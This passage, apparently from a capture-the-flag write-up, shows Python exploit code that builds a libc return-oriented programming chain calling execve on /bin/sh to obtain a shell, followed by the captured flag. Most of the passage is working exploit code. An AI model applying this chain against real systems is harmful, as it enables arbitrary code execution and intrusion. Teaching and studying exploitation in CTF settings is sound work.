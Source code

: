~~~python
# pop rsi gadget
pop_rsi_offset = r.find_gadget(['pop rsi', 'ret']).address
pop_rsi_addr = pop_rsi_offset + libc_base

# pop rdx gadget
pop_rdx_offset = r.find_gadget(['pop rdx', 'pop r12', 'ret']).address
pop_rdx_addr = pop_rdx_offset + libc_base

# execve gadget
execve_offset = libc.symbols['execve']
execve_addr = execve_offset + libc_base

# null ptr (*VALID* pointer to 0)
nullptr_offset = next(libc.search(p64(0)))
nullptr_addr = nullptr_offset + libc_base

chain = [
    pop_rdi_addr,
    bin_sh_addr,    # rdi
    pop_rsi_addr,
    nullptr_addr,              # rsi
    pop_rdx_addr,
    nullptr_addr,              # rdx
    0,              # r12
    execve_addr,
]
p.sendline(p64(ret_addr) * (250 // 8) +  b''.join(p64(r) for r in chain))
~~~

A shell was successfully obtained with the new approach, and the flag `RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}` was captured!
